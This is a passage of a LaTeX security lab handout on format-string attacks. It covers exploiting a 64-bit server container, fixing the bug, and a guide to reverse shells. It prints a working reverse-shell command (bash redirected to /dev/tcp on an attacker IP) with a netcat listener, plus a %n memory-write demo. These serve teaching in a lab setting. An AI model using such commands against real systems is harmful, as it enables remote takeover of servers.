your malicious code is stored (please provide the concrete address). 


\paragraph{Getting a Reverse Shell.}
We are not interested in running some pre-determined commands. We
want to get a root shell on the target server, so we can
type any command we want. Since we are on a remote machine,
if we simply get the server to run \texttt{/bin/bash}, we won't be able to
control the shell program. Reverse shell is a typical
technique to solve this problem. Section~\ref{sec:guildelines} provides
detailed instructions on how to run a reverse shell.
Please modify the command string in your shellcode, so you can
get a reverse shell on the target server.
Please include screenshots and explanation in your lab report.



% *******************************************
% SECTION
% *******************************************
\section{Task 5: Attacking the 64-bit Server Program}

\textbf{Note:} For Apple Silicon machines, Tasks 1-4 
are already using the 64-bit server program, so this task
is the same as Task 4 and there is no need to repeat it. 
However, students can find useful information about 64-bit 
machines in this section. 

In the previous tasks, our target servers are 32-bit
programs. In this task, we switch to a 64-bit server
program.  Our new target is \texttt{10.9.0.6}, which
runs the 64-bit version of the \texttt{format} program.
Let's first send a hello message to this server.
We will see the following messages printed out by the target container.


\begin{lstlisting}
$ echo hello | nc 10.9.0.6 9090
Press Ctrl+C

// Printouts on the container's console
server-10.9.0.6 | Got a connection from 10.9.0.1
server-10.9.0.6 | Starting format
server-10.9.0.6 | Input buffer (address):        0x00007fffffffe200
server-10.9.0.6 | The secret message's address:  0x0000555555556008
server-10.9.0.6 | The target variable's address: 0x0000555555558010
server-10.9.0.6 | Input size: 6
server-10.9.0.6 | Frame Pointer (inside myprintf):      0x00007fffffffe140
server-10.9.0.6 | The target variable's value (before): 0x1122334455667788
server-10.9.0.6 | hello
server-10.9.0.6 | (^_^)(^_^)  Returned from printf()  (^_^)(^_^)
server-10.9.0.6 | The target variable's value (after):  0x1122334455667788
\end{lstlisting}
 

You can see the values of the frame pointer and buffer's address
become 8 bytes long (instead of 4 bytes in 32-bit programs).
Your job is to construct your payload to exploit the format-string 
vulnerability of the server.
You ultimate goal is to get a root shell on
the target server. You need to use the 64-bit version of the shellcode.


\paragraph{Challenges caused by 64-bit Address.}
A challenge caused by the x64 architecture is the zeros in the address.
Although the x64 architecture
supports 64-bit address space, only the address from
\texttt{0x00} through \texttt{0x00007FFFFFFFFFFF} is allowed. That means for
every address (8 bytes), the highest two bytes are always zeros.
This causes a problem.

In the attack, we need to place addresses inside the format string. For
32-bit programs, we can put the addresses anywhere, because there
are no zeros inside the address. We can no longer do this
for the 64-bit programs. If you put an address in the middle of
your format string, when \texttt{printf()} parses the
format string, it will stop the parsing when it sees a zero. Basically,
anything after the first zero in a format string will not
be considered as part of the format string.

The problem caused by zeros is different from that
in the buffer overflow attack, in which,
zeros will terminate the memory copy if \texttt{strpcy()} is used. 
Here, we do not have memory copy in the program, 
so we can have zeros in our input, but where to put them
is critical. 
There are many ways to solve this problem, and 
we leave this to students. In the lab report, students
should explain how they have solved this problem. 


\paragraph{A userful technique: moving the argument pointer freely.}
In a format string, we can use \texttt{\%x} to move the
argument pointer \texttt{va\_list} to the next optional arguments.
We can also directly move the pointer to the \texttt{k}-th optional argument.
This is done using the format string's parameter field (in the form of
\texttt{k\$}).
The following code example uses \texttt{"\%3\$.20x"} to print out the value of the
3rd optional argument (number 3), and then uses \texttt{"\%6\$n"} to write
a value to the 6th optional argument (the variable \texttt{var}, its
value will become \texttt{20}). Finally,
using \texttt{\%2\$.10x}, it moves the pointer back to the 2nd
optional argument (number 2), and print it out. You can see,
using this method, we can move the pointer freely back and forth.
This technique can be quite useful to simplify the construction
of the format string in this task.

\begin{lstlisting}
#include <stdio.h>
int main()
{
    int var = 1000;
    printf("%3$.20x%6$n%2$.10x\n", 1, 2, 3, 4, 5, &var);
    printf("The value in var: %d\n",var);
    return 0;
}
----- Output ------
seed@ubuntu:$ a.out
000000000000000000030000000002
The value in var: 20
\end{lstlisting}




% *******************************************
% SECTION
% *******************************************
\section{Task 6: Fixing the Problem}

Remember the warning message generated by the \texttt{gcc} compiler? Please explain what
it means. Please fix the vulnerability in the server program, and recompile it. 
Does the compiler warning go away? Do your attacks 
still work? You only need to try one of your attacks to see whether it still
works or not. 


% *******************************************
% SECTION
% *******************************************
\section{Guidelines on Reverse Shell}
\label{sec:guildelines}


%\section{Guidelines: Creating Reverse Shell}
%\label{shellshock:sec:reverseshell}


The key idea of reverse shell is to redirect its standard input, output, and error devices to a
network connection, so the shell gets its input from the connection, and prints out its output
also to the connection. At the other end of the connection is a program run by the
attacker; the program simply displays whatever comes from the shell at the other end,
and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is
\texttt{netcat}, which, if running
with the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the
specified port. This server program basically prints out whatever is sent by the client, and
sends to the client whatever is typed by the user running the server.
In the following experiment, \texttt{netcat} (\texttt{nc} for short) is used
to listen for a connection on port \texttt{9090}~(let us focus only on the first line).


\begin{lstlisting}
Attacker(10.0.2.6):$ nc -nv -l 9090  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.0.2.5}@*)  netmask 255.255.255.0  broadcast 10.0.2.255
        ...
\end{lstlisting}


The above \texttt{nc} command will block, waiting for a connection.
We now directly run the following bash program on the Server machine~(\texttt{10.0.2.5}) to emulate
what attackers would run after compromising the server via some attacks.
This bash command will trigger a
TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can
see the shell prompt from the above result, indicating that the shell is running on the Server
machine; we can type the \texttt{ifconfig} command to verify that the IP address is indeed
\texttt{10.0.2.5}, the one belonging to the Server machine.  Here is the bash command:

\begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

The above command represents the one that would normally be executed on a compromised server.
It is quite complicated, and we give a detailed explanation in the following:


\begin{itemize}
\item \texttt{"/bin/bash -i"}: The option \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt).

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: This causes the output device~(\texttt{stdout}) of the shell
  to be redirected to the TCP connection to \texttt{10.0.2.6}'s port \texttt{9090}.
  In \unix systems, \texttt{stdout}'s file descriptor is \texttt{1}.

\item \texttt{"0<\&1"}: File descriptor \texttt{0} represents the standard input device~(\texttt{stdin}).
  This option tells the system to use the standard output device as the stardard input device.
  Since \texttt{stdout} is already redirected to the TCP connection, this option basically
  indicates that the shell program will get its input from the same TCP connection.

\item \texttt{"2>\&1"}: File descriptor \texttt{2} represents the standard error \texttt{stderr}. This
  causes the error output to be redirected to \texttt{stdout}, which is the TCP connection.
\end{itemize}

In summary, the command \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell on the server machine, with its input coming from a TCP connection,
and output going to the same TCP connection.
In our experiment, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.6}. This is confirmed via the \texttt{"Connection from 10.0.2.5 ..."}
message displayed by \texttt{netcat}.








% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\end{document}
